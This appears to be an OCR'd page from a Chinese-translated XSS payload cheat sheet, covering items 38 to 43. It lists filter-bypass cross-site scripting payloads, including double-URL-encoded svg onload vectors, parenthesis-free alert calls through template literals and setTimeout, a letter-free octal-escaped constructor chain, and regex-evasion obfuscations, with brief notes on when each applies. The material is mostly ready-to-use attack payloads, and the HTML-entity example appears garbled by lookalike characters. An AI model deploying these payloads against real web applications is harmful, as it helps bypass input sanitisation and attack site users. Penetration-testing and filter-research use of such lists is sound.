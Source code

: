 ##### 38.Double Encoded XSS (双重编码的XSS)

```
当web应用程序对用户输入的内容执行双重解码时使用该payload。

%253Csvg%2520o%256Eload%253Dalert%25281%2529%253E
%2522%253E%253Csvg%2520o%256Eload%253Dalert%25281%2529%253E
```

##### 39.Alert without Parentheses (Strings Only) (没有括号的弹窗（仅字符串）)

```
当web应用不允许使用括号并且常规的alert可以使用时，可在HTML向量或javascript注入payload进行使用。 

alert`1`
```

##### 40.Alert without Parentheses (不带括号的弹窗)

```
当web应用不允许使用括号并且PoC需要返回任意目标信息时，可在HTML标签或javascript注入该payload中使用。 

setTimeout`alert\x28document.domain\x29`
setInterval`alert\x28document.domain\x29`
```

##### 41.Alert without Parentheses – HTML Entities (不带括号的弹窗– HTML实体)

```
当前的payload只能在HTML代码注入中使用，当web应用不允许使用括号时。 在URL中将"＆"替换为"％26"，将"＃"替换为"％23"。 

<svg οnlοad=alert(1)>
<svg οnlοad=alert(1)>
```

##### 42.Alert without Alphabetic Chars (不带字母字符的弹窗)

```
当前web应用不允许使用字母字符时使用该payload。以下是alert(1)的payload 

[]['\146\151\154\164\145\162']['\143\157\156\163\164\162\165\143\164\157\162']
('\141\154\145\162\164\50\61\51')()
```

##### 43.Alert Obfuscation (弹窗混淆)

```
以下payload用于欺骗基于正则表达式（regex）的过滤器。 可以将其与以前的绕过方法结合使用。 根据上下文，最短的选项"top"也可以替换为"window"，"parent"，"self"或者"this" 

(alert)(1)
a=alert,a(1)
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
top['al\145rt'](1)
top[8680439..toString(30)](1)
```
